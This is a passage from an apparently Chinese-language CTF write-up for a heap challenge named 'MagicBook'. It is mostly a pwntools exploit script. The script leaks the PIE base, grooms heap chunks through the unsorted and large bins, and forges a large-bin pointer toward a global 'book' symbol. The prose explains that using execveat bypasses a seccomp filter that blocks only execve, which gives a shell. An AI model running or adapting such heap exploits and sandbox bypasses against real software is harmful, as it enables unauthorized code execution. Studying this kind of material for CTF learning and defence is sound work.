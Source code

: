 只禁了`execve`系统调用，因此可以使用`execveat`来拿shell

{% note tip fa-info %}
在设置传参函数的时候还要将r8置为0，因为这个`flags`在我们的情况下是`0x1e`，
会导致`execveat`无法打开shell
{% endnote %}

{% notel green fa-info `execveat`在libc中出现的时刻 %} 
经过源码符号查找，首次出现这个系统调用的版本是[2.27](https://elixir.bootlin.com/glibc/glibc-2.27/source/sysdeps/unix/sysv/linux/fexecve.c#L43)，
正式出现函数封装的版本是[2.34](https://elixir.bootlin.com/glibc/glibc-2.34/source/sysdeps/unix/sysv/linux/execveat.c#L26)
{% endnotel %}

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './MagicBook'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('', 9999)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.35-0ubuntu3.6_amd64/libc.so.6')
    elf = ELF(EXE)

    def createBook(size:int):
        sh.sendlineafter(b'choice', b'1')
        sh.sendlineafter(b'need', str(size).encode())
    
    def deleteBook(idx:int, page:int=0, content:bytes=None):
        sh.sendlineafter(b'choice', b'2')
        sh.sendlineafter(b'delete', str(idx).encode())
        if content:
            sh.sendlineafter(b'y/n', b'y')
            sh.sendlineafter(b'page', str(page).encode())
            sh.sendafter(b'content', content)
        else:
            sh.sendlineafter(b'y/n', b'n')

    def editBook(content: bytes):
        sh.sendlineafter(b'choice', b'3')
        sh.sendafter(b'story!\n', content)

    sh.recvuntil(b'gift: ')
    pieBase = int(sh.recv(14), 16) - elf.symbols['d']
    success(GOLD_TEXT(f'Leak PIE base: {pieBase:#x}'))
    elf.address = pieBase

    createBook(0x4e0)   # 0
    createBook(0x20)    # 1 prevent 0 from being merged
    createBook(0x4d0)   # 2
    deleteBook(0)       # place 0 in unsorted bin
    createBook(0x4f0)   # 3 place 0 in large bin

    deleteBook(2, 0, p64(0) * 2 + p64(elf.symbols['book'] - 0x20)) # place 2 in unsorted bin
```